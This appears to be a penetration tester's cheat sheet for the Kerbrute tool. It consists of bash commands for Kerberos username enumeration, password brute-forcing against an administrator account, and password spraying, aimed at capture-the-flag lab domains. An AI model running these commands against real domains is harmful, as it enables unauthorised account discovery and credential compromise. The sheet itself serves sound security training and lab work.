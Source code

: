 https://github.com/ropnop/kerbrute
https://hackingarticles.in/a-detailed-guide-on-kerbrute/

```bash
# User Enumeration
./kerbrute userenum --dc dc01.ghost.htb -d ghost.htb ~/wordlists/wordlists/SecLists/Usernames/top-usernames-shortlist.txt

./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt

# Bruteforce
./kerbrute bruteuser --dc dc01.ghost.htb -d ghost.htb ~/wordlists/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt administrator

# Password Spray
./kerbrute passwordspray --dc dc01.infiltrator.htb -d infiltrator.htb users.txt 'WAT?watismypass!'

./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
```